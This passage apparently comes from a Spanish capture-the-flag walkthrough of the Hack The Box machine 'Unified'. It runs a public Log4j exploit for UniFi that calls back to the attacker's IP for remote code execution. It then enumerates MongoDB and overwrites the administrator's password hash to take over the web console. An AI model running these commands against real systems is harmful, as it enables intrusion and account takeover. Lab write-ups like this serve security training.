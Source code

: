 [https://github.com/puzzlepeaches/Log4jUnifi](https://github.com/puzzlepeaches/Log4jUnifi)

Ejecutando el xploit tenemos RCE en la maquina haciendo :

```bash
❯ python3 exploit.py -u https://10.129.164.42:8443 -i 10.10.14.208 -p 4443
```

Una vez nos conectamos , enumeramos la base de datos mongo, para cambiar el password de administrador y poder acceder via web:

Opciones dentro de mongo

```bash

show dbs # Muestra las bases de datos
use db # selecciona la base de datos para trabajar
show collections # Muestra contenido de la bd (ex:admin,config)
db.admin.find() # Muestra contenido de la tabla
```

Podemos ver el contenido igualmente haciendo:

```bash
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

Para cambiar el password por uno nuevo, hacemos:

```bash
mkpasswd -m sha-512 test123

# Genera un password con el mismo formato
# Si identificamos el hash ($6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4.) nos dice que es un SHA-512

$6$ZodQMsUBsAjSApZ4$SVQpJGZOC3v2XeFIezGrXLvSfxd2RoZpgaODN7cKpxYtQELjZaOZKEiGwiT8KpuYf3EsfV3e7D7GGqPfI49rt.
```

Para actualizar el password en mongo:

```bash
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$ZodQMsUBsAjSApZ4$SVQpJGZOC3v2XeFIezGrXLvSfxd2RoZpgaODN7cKpxYtQELjZaOZKEiGwiT8KpuYf3EsfV3e7D7GGqPfI49rt."}})'
```

Para verificar que se ha cambiado el password:

```bash
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
MongoDB shell version v3.6.3
connecting to: mongodb://127.0.0.1:27117/ace
MongoDB server version: 3.6.3
{
	"_id" : ObjectId("61ce278f46e0fb0012d47ee4"),
	"name" : "administrator",
	"email" : "administrator@unified.htb",
	"x_shadow" : "$6$ZodQMsUBsAjSApZ4$SVQpJGZOC3v2XeFIezGrXLvSfxd2RoZpgaODN7cKpxYtQELjZaOZKEiGwiT8KpuYf3EsfV3e7D7GGqPfI49rt.",
	"time_created" : NumberLong(1640900495),
	"last_site_name" : "default",
	"ui_settings" : {
		"neverCheckForUpdate" : true,
		"statisticsPrefferedTZ" : "SITE",
		"statisticsPreferBps" : "",
		"tables" : {
		
 # Aparece el nuevo password
```

